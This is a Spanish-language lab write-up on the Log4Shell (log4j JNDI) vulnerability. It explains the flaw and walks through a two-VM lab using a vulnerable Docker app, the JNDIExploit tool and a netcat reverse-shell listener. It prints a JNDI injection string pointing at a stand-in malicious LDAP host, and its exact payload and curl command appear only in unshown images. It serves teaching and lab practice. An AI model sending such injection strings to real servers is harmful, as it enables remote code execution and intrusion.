






## Explicación teórica

En esta ocasión vamos a realizar una práctica de laboratorio sencilla donde explotaremos la en su día ya famosa vulnerabilidad `Log4shell`. Esta vulnerabilidad es del tipo RCE (Ejecución Remota de código), con una gran criticidad y fue en su momento un 0day en el popular paquete de logging `log4j`.

Algunos detalles más técnicos de la vulnerabilidad pueden leerse [aquí](https://www.lunasec.io/docs/blog/log4j-zero-day/)

A partir de esta vulnerabilidad y su correspondiente parche, se fueron desencadenado nuevas vulnerabilidades. La [siguiente](https://blog.aquasec.com/log4j-vulnerabilities-overview) imagen muestra la línea de acontecimientos:


## ¿Cuál es el problema que genera la vulnerabilidad?

El meollo de esta vulnerabilidad está contado bastante bien [aquí](https://www.akamai.com/es/blog/security/a-log4j-retrospective) y [aquí](https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4).

A muy grandes rasgos, log4j permite registrar expresiones en los logs que contengan variables, de tal forma que al loggearse la información, log4j interpreta la expresión y sustituye las variables adecuadamente:

```
"${date:MM-dd-yyyy} Access granted" 
```

Además, log4j permite anidar expresiones de búsquedas unas dentro de otras.

### JNDI (Java Naming and Directory Interface)

Esta funcionalidad de log4j permite a una aplicación obtener datos de un servidor remoto utilizando protocolos tales como LDAP o RMI.

Todo esta teoría junta, puede usarse para explotar la vulnerabilidad de la siguiente forma:


Es decir, muy resumidas, ocurren las siguiente cosas:

1. Un atacante realiza una petición a la aplicación vulnerable y "cuela" una cadena JNDI para ser loggeada por log4j (en una cabecera HTTP por ejemplo)
    Esta cadena contiene una petición de búsqueda a un servidor LDAP malicioso.

2. Esta petición o cadena es, efectivamente, loggeada por log4j, que la interpreta y contacta con el servidor LDAP malicioso

3. El servidor LDAP malicioso responde con una clase Java maliciosa

4. El servidor víctima deserializa o descarga la clase Java malicoso y la ejecuta

## Caso práctico

Para este escenario me he basado es una explicación genial de un buen [blog](https://ciberseguridad.blog/como-explotar-la-vulnerabilidad-log4shell-en-nuestro-laboratorio/ ¡) en español y me parece importante darle su crédito.

Vamos a utilizar dos máquinas virtuales:

+ En la primera ejecutaremos una aplicación vulnerable a `log4shell`. Se tratará de [este](https://github.com/christophetd/log4shell-vulnerable-app) contenedor Docker. Utilizaré un Lubuntu que tenía a mano.

+ En la segunda ejecutaremos un [exploit](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) diseñado para esta vulnerabilidad, que levantará un servidor LDAP (para recibir la petición de la víctima) y otro HTTP (para servir el exploit).

    También pondremos un netcat a escuchar, ya que el exploit establecerá una shell reversa.

    Y desde este servidor será desde realizaremos la petición maliciosa a la víctima, mediante `curl`, construida adecuadamente para explotar la vulnerabilidad descrita.

    Utilizaré una Debian que también tenía a mano.

En esencia, la cosa quedaría así:


Así pues, vayamos al lío. Ejecutamos la aplicación vulnerablen en el Lubuntu:



Ejecutamos el exploit en la Debian. Comprobamos como se inician el servidor LDAP (puerto 1389) y el HTTP (el 8888 le hemos indicado):


Y ponemos en esta misma máquina netcat a la escucha para recibir la reverse shell:



La petición CURL que vamos a realizar, será del tipo `${jndi:ldap://www.malicious.com/payload}`, donde `www.malicious.com` es el servidor LDAP malicioso y `payload` será la orden a ejecutar para conseguir la reverse shell, codificada en base64.

El `payload`:


La petición CURL completa:



El servidor con la aplicación vulnerable recibiendo la petición:





Nuestros servidores maliciosos en la máquina DEbian recibiendo sus respectivas peticiones LDAP y HTTP sirviendo la clase Java maliciosa:



Y tras este intercambio de peticiones y respuestas, obtenemos nuestra shell inversa:


